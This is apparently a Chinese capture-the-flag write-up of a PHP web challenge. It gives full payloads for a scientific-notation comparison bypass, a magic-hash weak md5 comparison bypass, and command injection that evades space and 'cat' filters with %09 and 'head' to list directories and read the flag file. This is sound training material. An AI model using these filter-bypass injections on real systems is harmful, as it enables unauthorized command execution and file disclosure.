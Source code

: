 所以payload

```php
?num=3e6     //不唯一 只要使字符串e前面的数字小于2020 科学技术法的值大于2020即可
```

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1736651499767-d64ad779-8085-494a-afa7-e28f81d8b8e9.png)

显示劳力士说明绕过成功 

第二层限制要求上传的参数值和md5值弱项等

根据弱相等的性质我们可以使用0e绕过 于是我们只需上传以0e开头后面全是数字并且md5值也是以0e开头后面全是数字即可 所以paylaod

```php
?num=3e6&md5=0e215962017
```

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1736651963784-f127b3c4-bcfd-4dfe-9318-25f03626224b.png)

出现语句说明成功通过 

第三层限制上传的参数要求不能出现空格和cat 于是我们可以使用%09代替空格 head代替cat

先查看根目录

```php
?num=3e6&md5=0e215962017&get_flag=ls%09/
```

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1736652699245-7f9705d8-61fa-4089-9dbc-eb0300bd9bd4.png)

发现并没有发现flag 于是改用ls查看网站下的目录

```php
?num=3e6&md5=0e215962017&get_flag=ls
```

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1736652765047-2bf64f7e-5e0d-4af7-8a57-b693a0688baa.png)

发现flag 直接

```php
?num=3e6&md5=0e215962017&get_flag=head%09fllllllllllllllllllllllllllllllllllllllllaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaag
```

得到flag

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1736653040771-7e6cad52-466a-4b93-9fe1-2e1f9577083d.png)

